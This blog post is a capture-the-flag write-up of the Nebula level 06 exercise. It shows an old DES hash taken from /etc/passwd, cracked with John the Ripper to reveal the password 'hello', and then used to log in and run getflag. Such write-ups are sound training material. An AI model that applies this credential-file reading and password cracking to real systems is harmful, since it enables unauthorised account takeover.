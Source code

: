 ```yaml
---
layout: post
title: "Exploit Exercises - Nebula 06"
date: 2011-12-07T06:10:00-05:00
comments: true
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - hacking
---
```


[Nebula 06](http://exploit-exercises.com/nebula/level06) is a retro challenge. The description of the problem says "The flag06 account credentials came from a legacy unix system." This instantly made me think to check out the password file, /etc/passwd. Back in "the old days", unix systems stored their passwords in /etc/passwd. But due to having the passwords where everyone could see them, they ended up moving towards password shadowing, where they stored the actual passwords in /etc/shadow, but kept the same user data in /etc/passwd.

In the /etc/passwd file I found a snippet for the flag06 user, with the old-fashioned password encrypted:

```
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
```

To crack this, I went to my trusty [BackTrack](http://www.backtrack-linux.org) virtual machine, and ran [John The Ripper](http://www.openwall.com/john) against it.

```
root@bt:/pentest/passwords/john# echo 'flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh' > /root/flag06
root@bt:/pentest/passwords/john# ./john /root/flag06 
Loaded 1 password hash (Traditional DES [128/128 BS SSE2])
hello            (flag06)
guesses: 1  time: 0:00:00:00 100.00% (2) (ETA: Fri Dec  2 09:51:10 2011)  c/s: 7530  trying: 12345 - biteme
```

Thanks go john, I now know the flag06 password is "hello".  So I ssh locally, and run "getflag" to complete the challenge.

```
level06@nebula:/home/flag06$ ssh flag06@localhost

      _   __     __          __
     / | / /__  / /_  __  __/ /___ _
    /  |/ / _ \/ __ \/ / / / / __ `/
   / /|  /  __/ /_/ / /_/ / / /_/ /
  /_/ |_/\___/_.___/\__,_/_/\__,_/

    exploit-exercises.com/nebula


For level descriptions, please see the above URL.

To log in, use the username of "levelXX" and password "levelXX", where
XX is the level number.

Currently there are 20 levels (00 - 19).


flag06@localhost's password:
Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)

 * Documentation:  https://help.ubuntu.com/
Last login: Fri Dec  2 06:51:34 2011 from localhost
flag06@nebula:~$ getflag
You have successfully executed getflag on a target account
```

There you have it.  Level 06 complete, with a warm and fuzzy look back in history.
